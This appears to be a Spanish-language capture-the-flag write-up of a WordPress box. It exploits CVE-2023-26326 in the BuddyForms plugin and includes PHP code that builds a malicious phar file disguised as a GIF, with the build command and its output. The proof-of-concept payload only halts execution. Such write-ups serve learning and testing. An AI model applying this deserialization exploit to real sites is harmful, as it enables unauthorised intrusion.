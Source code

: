 ### Apis
Encontramos varias API's a los que el servidor envia peticiones:

```ruby
http://blog.bigbang.htb/wp-admin/admin-ajax.php
http://blog.bigbang.htb/wp-admin/upload.php
```

### Wordpress Plugin | BuddyForms 

[articulo](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)
#### [CVE-2023-26326](https://nvd.nist.gov/vuln/detail/CVE-2023-26326)

Bueno esta vulnerabilidad cosniste en subir un archivo .phar malicioso mediante `upload_image_from_url` y luego llamarlo con el wrapper phar://

Pruebo primero a subir un gif para verificar que funciona el exploit; el codigo defectuoso se puede examinar en este [enlace](https://github.com/BuddyForms/BuddyForms/blob/master/includes/functions.php#L1488);
A pesar de subirse el archivo en formato .png podemos observar que el gif funciona en la pagina por lo que podremos subir un archivo phar malicioso que el servidor interprete como GIF

![[Pasted image 20250202141748.png]]

dado esto procedemos  construir un exploit php
```php
<?php  
  
class Evil{  
  public function __wakeup() : void {  
    die("Arbitrary Deserialization");  
  }  
}  
  
  
//create new Phar  
$phar = new Phar('evil.phar');  
$phar->startBuffering();  
$phar->addFromString('test.txt', 'text');  
$phar->setStub("GIF89a\n<?php __HALT_COMPILER(); ?>");  
  
// add object of any class as meta data  
$object = new Evil();  
$phar->setMetadata($object);  
$phar->stopBuffering();
```

Lo convertimos  a phar:
```bash
php --define phar.readonly=0 evil.php
➜  CVE-2023-26326 strings evil.phar 
GIF89a
<?php __HALT_COMPILER(); ?>
O:4:"Evil":0:{}
test.txt
text
GBMB
```
